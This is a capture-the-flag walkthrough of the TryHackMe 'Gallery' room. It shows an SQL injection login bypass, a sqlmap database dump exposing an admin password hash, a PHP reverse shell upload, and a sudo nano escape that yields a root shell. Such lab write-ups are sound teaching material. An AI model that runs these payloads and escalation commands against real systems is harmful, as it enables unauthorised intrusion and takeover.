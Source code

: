 # Gallery
[TryHackMe room link](https://tryhackme.com/room/gallery666)

# Informations about the room
> Try to exploit our image gallery system

# Open ports

80

8080

# Enumeration

Inside the webserver hosted on port 8080 there is a login page vulnerable to SQLi

You can use `' or 1=1 -- -` to log in as admin or if you want to dump the MySQL database save the request made with the browser in a file and pass it to sqlmap

`sqlmap -r request.rq -dbms --dump`

A `gallery.db` database is found:

```sql
Database: gallery_db
Table: users
[1 entry]
+----+------+------------------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
| id | type | avatar                                   | lastname | password                         | username | firstname    | date_added          | last_login | date_updated        |
+----+------+------------------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
| 1  | 1    | uploads/1629883080_1624240500_avatar.png | Admin    | a228b12a08b6527e7978cbe5d914531c | admin    | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2021-08-25 09:18:12 |
+----+------+------------------------------------------+----------+----------------------------------+----------+--------------+---------------------+------------+---------------------+
```

This is only needed for the flag because i did not manage to crack the password hash

But we can still log in as admin using the injection above so it's not a problem

After logging in the site we have the possibility to upload a profile avatar

The site does not check the file extension so we can freely upload a php reverse shell to the machine

# Privilege escalation

We are user `www-data` 

After enumerating we can see a history file with the password for the user `mike`:
```console
╔══════════╣ Searching passwords in history files                                                                                                                                            
      @stats   = stats                                                                                                                                                                       
      @items   = { _seq_: 1  }                                                                                                                                                               
      @threads = { _seq_: "A" }                                                                                                                                                              
sudo -lREDACTED                                                                                                                                                                     
sudo -l
```

After logging in the mike user, using `sudo -l` we discover that there is a `rootkit.sh` script in the `/opt` directory that can be executed as root:

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

The script is using `nano` to display the `report.txt` file

So if we run the script with sudo the nano binary does not drop the elevated privileges and we can abuse it to spawn a root shell:

[GTFOBins link](https://gtfobins.github.io/gtfobins/nano/)

```console
nano
^R^X
reset; sh 1>&0 2>&0
```


